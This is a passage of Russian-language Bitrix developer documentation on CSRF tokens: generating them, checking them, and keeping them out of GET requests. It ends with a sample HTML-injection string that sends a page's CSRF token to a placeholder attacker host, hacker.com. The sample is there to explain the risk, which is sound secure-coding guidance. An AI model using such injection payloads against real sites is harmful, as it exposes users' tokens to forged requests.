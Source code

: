 -  `bitrix_sessid_get()` -- формирует параметр для GET-запросов. Используйте функцию, чтобы выполнить конфиденциальные действия через GET. Например, выйти из системы. Сформируйте ссылку так: `'url?parameters&' . bitrix_sessid_get();`.

   ```php
   echo bitrix_sessid_get(); // sessid=feb8414592f24d96f6fd0c656e6ccd67
   ```

-  `check_bitrix_sessid()` -- проверяет, совпало ли значение `bitrix_sessid` с `$varname` или заголовком `X-Bitrix-Csrf-Token`.

   ```php
   return (
      $request[$varname] === bitrix_sessid() ||
      $request->getHeader('X-Bitrix-Csrf-Token') === bitrix_sessid()
   );
   ```

В общем виде для проверки корректности запроса достаточно добавить `check_bitrix_sessid` в условие:

```php
if (check_bitrix_sessid()) {
     // Действие выполняется
}
```

Включайте токен для AJAX-запросов с помощью функции  `BX.bitrix_sessid()`.

{% note info "" %}

Выполняйте запросы на изменение состояния приложения методом POST. Передача токена через GET может привести к его раскрытию. Если необходимо использовать GET, после обработки запроса сделайте редирект без CSRF-токена.

{% endnote %}

HTML-инъекции могут нарушить форматирование и привести к утечке CSRF-токена. Например:

```php
<form method="POST" action="/action.php">
	<input type="text" name="foo" value="<?= $injection ?>"
	<!-- Это наш секретный CSRF-токен! -->
	<?= bitrix_sessid_post() ?>
	...
</form>
<script>
    var someVar = 'text';
</script>
```

Если в `$injection` попадет строка `"\"><img src='http://hacker.com/?token="`, отправленная пользователем, получится форма следующего вида:

```html
<form method="POST" action="action.php">
	<input type="text" name="foo" value="" />
	<img src='http://hacker.com?token="'>
	<!-- Это наш секретный CSRF-токен! -->	
	<input type="hidden" name="sessid" id="sessid" value="random" />
</form>
<script>
	var someVar = 'text';
</script>
```

